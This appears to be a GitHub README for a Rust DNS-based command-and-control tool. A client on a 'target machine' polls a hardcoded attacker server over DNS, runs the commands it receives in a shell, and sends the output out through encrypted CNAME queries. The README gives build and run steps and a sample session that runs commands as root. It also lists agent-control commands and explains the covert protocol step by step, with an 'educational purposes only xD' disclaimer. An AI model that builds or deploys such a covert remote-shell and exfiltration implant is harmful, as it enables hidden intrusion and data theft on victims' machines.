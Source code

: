 # DNS Based Command Execution
A simple rust client and server utilities for DNS based command execution and data exfiltration

## Features
 - AES-GCM encyption for the commands to be executed and the output that will be exfiltrated
 
 - Commands are fetched from the DNS server as an encrypted string encoded as IPv6 addresses
      
 - Data is exfiltrated as a series of CNAME requests to the dns server.
 
 - DNS client is running as a process, with a configurable sleep timer, default value is 5 seconds

 - DNS server's address can also be configured dynamically while the client is running.


## Limitations
 - The DNS server is making use of rust's dns-server crate which is using UDP as a transport protocol, messages are limited to 512 bytes (RFC), however data is split into chunks so this is not that big limitation
 - No interactive command support (like text editors etc.), at the moment all commands are executed with a spawned shell process (`sh` for linux, `cmd` for windows).

 
 
## TODO
 - Switch from `std::process::Command` to a more native way for executing commands on linux and windows
 - Add the ability to download/upload files
 - Add support for configurable encryption key
 
 
## Dependencies
The project is built with two main dependencies `rustdns` for the client and `dns-server` for the server.


## Usage
The project is organized in a simple rust workspace, so just compile the server and client binary.

```bash
root@2cc16c1a4c39:/# cargo build -p client
    Finished `dev` profile [unoptimized + debuginfo] target(s) in 0.11s
root@2cc16c1a4c39:/# cargo build -p server
    Finished `dev` profile [unoptimized + debuginfo] target(s) in 0.07s
root@2cc16c1a4c39:/mnt/dnsExfil# 

```

At the moment the DNS Server's address and port are hardcoded in the client, so make sure to change it

```rust
    //Initial value
    unsafe {
        DNS_SERVER = "192.168.1.16:53".to_string();
    }
```

Run the client on the target machine, run the server and start inputing commands
```bash
root@cf4cb157ea1a:/# target/debug/server 
[+] Starting dns server on port 53
#> id
#> 
uid=0(root) gid=0(root) groups=0(root)


#> hostname
#> 
2cc16c1a4c39

#> help
[+] Available commands:
        reconfigure_sleep INT -> Reconfigure the client's sleep interval, default is 5 secs
        exit -> Terminates the DNS Server process, this wont terminate the client, it will keep polling every SLEEP secs
        kill_agent -> Instructs the dns client to terminate its process
        reconfigure_dnsserver ADDR -> Reconfigure the client's dns server connection string 
```

The way it works is as follows:
1. Command is input on the server
2. It get stored in a static variable
3. The client makes AAAA (IPv6) request every SLEEP seconds to check for commands
4. The server responds with encrypted and encoded (as IPv6) command to the AAAA query
5. The client executes the commands (after decoding and decryption) encrypts the output and constructs a series of CNAME queries which are send to the server, after the final part an A query is send to signify the end of the data
6. The server receives the queries, parses and accumulates the data and after an A request is received, it decodes, decrypts the data and outputs it.



## Disclaimer
As always this simple tool is created for educational purposes only xD